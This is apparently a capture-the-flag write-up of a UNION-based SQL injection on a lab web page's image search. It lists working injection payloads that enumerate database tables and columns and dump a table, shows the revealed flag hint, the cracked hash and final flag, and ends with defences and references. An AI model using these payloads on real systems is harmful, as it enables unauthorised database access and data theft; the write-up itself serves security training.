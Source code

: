 # SQL injection

## Found on
```
<ip>/?page=searchimg
```

## How to exploit

The nmap tool informed of a possible Cross Site Request Forgeries (CSRF) vulnribility on this page.

What we found was an SQL Injection vulnribility.

Typing anything other than an id (integer) returns an SQL error. This gives an indication that the input is not sterilized before running a query.

This is very dangerous as attackers notice these things and mark inputs and fields like these as targets.  

1. To get table names:
```
3 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database()
```

2. To get user table column names:
```
3 UNION SELECT column_name, null FROM information_schema.columns WHERE table_schema = database()
```

3. To get all data of users:
```
3 UNION SELECT title, comment FROM list_images
```

The last injection reveals this:
```
ID: 3 UNION SELECT title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

With these instructions getting the flag was easy.
1. Decript the hash -> albatroz
2. Encrypt the lowercase phrase with Sh256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

[MD5 decryption utility](https://hashtoolkit.com/decrypt-md5-hash)

## A brief explination of the SQL attack

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query.

## How to protect against

* Use prepared statements or strerilize the input from the form.
* Using layered security minimizes the risk of vulnribilities being exposed.
* Using [Parameterized Queries in SQL](https://use-the-index-luke.com/sql/where-clause/bind-parameters)

## Resources:
* <https://owasp.org/www-community/attacks/SQL_Injection>
* <https://portswigger.net/web-security/sql-injection/union-attacks>
* <https://dev.mysql.com/doc/refman/8.0/en/information-schema.html>
* <https://www.softwaretestinghelp.com/sql-injection-how-to-test-application-for-sql-injection-attacks/>
